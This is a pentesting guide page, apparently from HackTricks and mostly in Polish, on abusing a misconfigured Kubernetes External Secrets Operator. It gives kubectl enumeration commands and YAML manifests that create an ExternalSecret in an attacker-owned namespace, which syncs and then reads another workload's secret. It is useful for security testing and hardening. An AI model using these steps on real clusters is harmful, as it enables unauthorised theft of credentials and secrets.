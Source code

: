 # External Secret Operator

{{#include ../../banners/hacktricks-training.md}}

**The original author of this page is** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Ta strona zawiera wskazówki dotyczące tego, jak możesz ukraść sekrety z źle skonfigurowanego ESO lub aplikacji, która używa ESO do synchronizacji swoich sekretów.

## Disclaimer

Technika pokazana poniżej może działać tylko wtedy, gdy spełnione są określone warunki. Na przykład, zależy to od wymagań potrzebnych do umożliwienia synchronizacji sekretu w przestrzeni nazw, którą posiadasz / skompromitowałeś. Musisz to ustalić samodzielnie.

## Prerequisites

1. Punkt zaczepienia w klastrze kubernetes / openshift z uprawnieniami administratora w przestrzeni nazw
2. Dostęp do odczytu przynajmniej do ExternalSecret na poziomie klastra
3. Ustal, czy są wymagane jakiekolwiek etykiety / adnotacje lub członkostwo w grupie, które pozwalają ESO na synchronizację twojego sekretu. Jeśli masz szczęście, możesz swobodnie ukraść dowolny zdefiniowany sekret.

### Gathering information about existing ClusterSecretStore

Zakładając, że masz użytkownika, który ma wystarczające uprawnienia do odczytu tego zasobu; zacznij od wymienienia istniejących _**ClusterSecretStores**_.
```sh
kubectl get ClusterSecretStore
```
### Enumeracja ExternalSecret

Załóżmy, że znalazłeś ClusterSecretStore o nazwie _**mystore**_. Kontynuuj, enumerując jego powiązany externalsecret.
```sh
kubectl get externalsecret -A | grep mystore
```
_Ten zasób jest ograniczony do przestrzeni nazw, więc jeśli nie wiesz, której przestrzeni nazw szukać, dodaj opcję -A, aby przeszukać wszystkie przestrzenie nazw._

Powinieneś otrzymać listę zdefiniowanych externalsecret. Załóżmy, że znalazłeś obiekt externalsecret o nazwie _**mysecret**_, zdefiniowany i używany przez przestrzeń nazw _**mynamespace**_. Zbierz trochę więcej informacji na temat tego, jakiego rodzaju sekret przechowuje.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Assembling the pieces

Z tego miejsca możesz uzyskać nazwę jednego lub wielu sekretów (tak jak zdefiniowano w zasobie Secret). Otrzymasz wynik podobny do:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
Jak dotąd mamy:

- Nazwa ClusterSecretStore
- Nazwa ExternalSecret
- Nazwa sekretu

Teraz, gdy mamy wszystko, czego potrzebujemy, możesz stworzyć ExternalSecret (a w razie potrzeby zaktualizować/stworzyć nową Namespace, aby spełnić wymagania potrzebne do synchronizacji nowego sekretu):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Po kilku minutach, jeśli warunki synchronizacji zostały spełnione, powinieneś być w stanie zobaczyć wyciekły sekret w swoim przestrzeni nazw.
```sh
kubectl get secret leaked_secret -o yaml
```
## Odniesienia

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}



{{#include ../../banners/hacktricks-training.md}}
